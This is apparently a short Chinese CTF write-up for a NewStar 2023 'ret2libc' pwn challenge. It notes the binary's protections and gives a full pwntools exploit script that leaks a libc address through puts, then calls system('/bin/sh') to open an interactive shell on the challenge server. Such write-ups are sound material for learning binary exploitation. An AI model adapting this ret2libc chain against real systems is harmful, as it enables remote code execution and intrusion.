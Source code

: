 ```yaml
---
title: newstar2023 week2 - ret2libc
date: 2023/10/2 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用ret2libc技术实现远程代码执行。
---
```


## 文件分析

下载`ret2libc`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

参考我的moectf2023和cbctf的wp，很常规的一题

## EXPLOIT

```python
import LibcSearcher
from pwn import *
sh = remote('node4.buuoj.cn', 29167)
elf = ELF('ret2libc')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x400763
mainAddr = elf.symbols['main']

# payload 1
sh.sendline(b'0'*0x28 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'time\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x4006f1

# payload 2
sh.sendline(b'0'*0x28 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
